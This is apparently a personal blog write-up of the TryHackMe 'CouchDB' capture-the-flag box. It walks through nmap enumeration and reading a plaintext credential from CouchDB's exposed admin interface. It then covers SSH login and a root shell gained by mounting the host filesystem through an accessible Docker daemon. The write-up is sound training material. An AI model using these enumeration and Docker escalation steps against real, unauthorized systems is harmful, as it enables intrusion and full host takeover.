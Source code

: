 ```yaml
---
layout: post
title: CouchDB TryHackMe writeup
subtitle: This is an easy box on TryHackme website.
tags: [writeup, tryhackme]
comments: true
---
```


This is a easy box with half guided, let's dig in
# Eumeration
## Scanning
Let's start by a normal scan by nmap
```
nmap -p- -v <ip>

...
Discovered open port 22/tcp on 10.10.253.5
...
Discovered open port 5984/tcp on 10.10.253.5
...
```
Now we know there are 2 port is now opened and that is the answer for question 1 (2) and question 3 (5984).
Now start scanning for what service is running on thesse 2 boxes
```
nmap -A -p 22,5984 10.10.253.5
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
```

Now we has know 2 information:
- SSH service is running on port 22
- CouchDB is running on port 5984
## Information Gathering
Let's access to browser on port 5984 and see what we can find
```
curl http://10.10.253.5:5984/
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```
We get the reponse from the server. So we got the version of the CouchDB, as well as the answer for question 4.
At this state, you can use `gobuster` to brute force the directory but it is not a good idea. Another option is we can go on the internet and find and well-organized documentation for CouchDB here:
`https://docs.couchdb.org/en/stable/intro/tour.html`
Here, we can find interesting url:
- `\_all_dbs`: it will return list of all databases
- `\_utils`: allow us to access the interface for the admin

I will try `\_utils` first
![alt text](assets/img/tryhackme/couchDB/browser.png)
And now we find out there are a juicy database name `secret`, lets try to access it and ... booyah
`passwordbackup   atena:t4qfzcc4qN##`
We find out a credential and I guess that is the credential for the SSH
## Exploit
I try to access SSH with our gathered credential
`ssh atena@<ip>`
And now we are the user `atena`. Lets find the way to root
First I try find the sudo right of `atena` user
```
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
```
So atena don't have any sudo right, let find another way. After a while, I find interesting information in `.bash_history`
```
cat ~/.bash_history
...
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
...
```
So that mean atean can access to docker on port 2375. I search docker on `GTFObin` and found out that we can spawn root shell using that command [here](https://gtfobins.github.io/gtfobins/docker/): 
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
Let's try that on our command:
```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{####################}
```
And we got to root.

Thanks for reading

